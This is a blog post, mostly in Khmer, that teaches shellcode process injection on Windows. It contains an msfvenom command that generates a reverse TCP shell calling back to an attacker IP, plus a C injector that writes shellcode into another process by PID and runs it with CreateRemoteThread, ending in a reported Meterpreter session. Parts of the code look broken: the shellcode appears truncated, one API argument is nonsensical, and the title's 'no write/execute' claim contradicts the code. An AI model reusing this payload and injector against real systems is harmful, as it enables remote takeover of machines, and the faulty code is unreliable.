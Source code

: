 ```yaml
---
title: "Process Injection without Write/Execute Permission"
date: 2023-06-21T21:01:06+07:00
description: ចាក់បញ្ជូល Shellcode ក្នុង Process ដោយគ្មាន Write/Exec Allocation
draft: false
hideToc: false
enableToc: true
enableTocContent: false
author: thik
authorEmoji: 🐱
tags: 
- c-shellcode
categories:
- Process Injection
series:
- WinExE
image: images/feature3/code-file.png
---
```


#### Pwn Self Injection

បង្កើត Payload ដោយប្រើប្រាស់ Shellcode ជាភាសារ C គោលដៅលើម៉ាស៊ីន 64 bit ។

{{< highlight bash "linenos=table" >}}
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.60.136 lport=4433 -f c
{{< / highlight >}}

ខាងក្រោមជាវិធីសាស្ត្រសម្រាប់ចាក់ Process ចូលទៅកាន់ PID ណាមួយដោយមិនមាន DEP protection និងមិនមានសិទ្ធក្នុងការសរសេរចូល ឬដំណើរការបាន (Non-Writable / Non-Executable Allocation) ។

{{< highlight cpp "linenos=table" >}}
#include <stdio.h>
#include <Windows.h>

int main(int argc, char* argv[])
{
    unsigned char shellcode[] =
		"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
		"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
		"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
		"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;
    DWORD oldPerms;
    DWORD PID = 1524;
    printf("Injecting to PID: %i", PID);
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READ);
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
    VirtualProtectEx(processHandle, (LPVOID)sizeof(processHandle), sizeof(shellcode), PAGE_READONLY, &oldPerms);
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    CloseHandle(processHandle);

    return 0;
}
{{< / highlight >}}

កែត្រង់ PID បន្ទាប់មក Compile កូដខាងលើតាមធម្មតា (សម្រាប់ Visual Studio 20xx តម្រូវឲ្យធ្វើការបិទ DEP Protection មុននិង Build) បន្ទាប់មកសូមសាកល្បងបើកដំណើរការ ។

![Pwn Process Injection Non-Write/Exec Allocation](/en/posts/img/2023/06/process-injection-bypass-write-exec/pwn-process-injection.png)
![Meterpreter](/en/posts/img/2023/06/process-injection-bypass-write-exec/meterpreter.png)

ជោគជ័យ!!! ពេលនេះយើងបានចាក់ Shellcode ចូលទៅក្នុង Process នៃកម្មវិធី Notepad.exe តាមរយៈ PID 1524 ដោយមិនមានសិទ្ធ Write ឬ Execute បានសម្រេច ៕

<b>សម្រង់ចេញពី៖</b> [XRET2PWN](https://xret2pwn.github.io/process-inection/)